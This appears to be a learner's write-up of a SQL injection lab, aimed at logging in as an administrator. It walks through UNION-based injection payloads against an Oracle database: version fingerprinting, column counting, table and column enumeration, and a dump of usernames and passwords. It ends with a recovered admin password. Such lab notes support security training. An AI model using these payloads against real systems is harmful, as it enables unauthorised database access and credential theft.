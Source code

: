 # Goal
    - Login as admin

# Preliminary Work
    - Get the SQL Version
        -- ' UNION SELECT @@version
            -- Unsuccessful
        -- [Oracle] ' UNION SELECT BANNER,NULL FROM v$version--
            - SUCCESS
![Oracle Version](./pics/130057.png)  
        -- SELECT version()
    - Determine number of columns needed for UNION
        -- ' ORDER BY (number)--
            -- stop when you get an error
        -- ' ORDER BY 3-- yielded error so we know there are 2 columns
            -- ALL tables have 2 columns
    - Determine which columns can handle text (to display juicy info)
        -- ' UNION SELECT 'a',NULL,NULL,... FROM dual--
            -- Oracle requires selection from a table
            -- dual is a dummy table that anyone can access :)
        -- ' UNION SELECT 'a',NULL FROM dual-- ||| ' UNION SELECT NULL,'a' FROM dual-- both worked
            -- both columns support text (good news for username and passwords)

# Looking Through the Database (non-Oracle)
    - Get list of table names
        -- ' UNION SELECT TABLE_NAME,NULL FROM all_tables--
![](./pics/141930.png)
    - CRTL-F 'user' to find potential tables
        -- USERS_ELWKUV (worked!)
        -- USER$
    - Get columns for the tables ()
        -- PASSWORD_UOJZWJ | USERNAME_WRUUZC
![](./pics/141953.png)
    - Get the column data
        -- ' UNION SELECT USERNAME_WRUUZC,PASSWORD_UOJZWJ FROM USERS_ELWKUV--
![](./pics/142008.png)
    - Admin Info
        -- uname: administrator
	    -- pword: b4if4ckvox1tsk8wlgjx



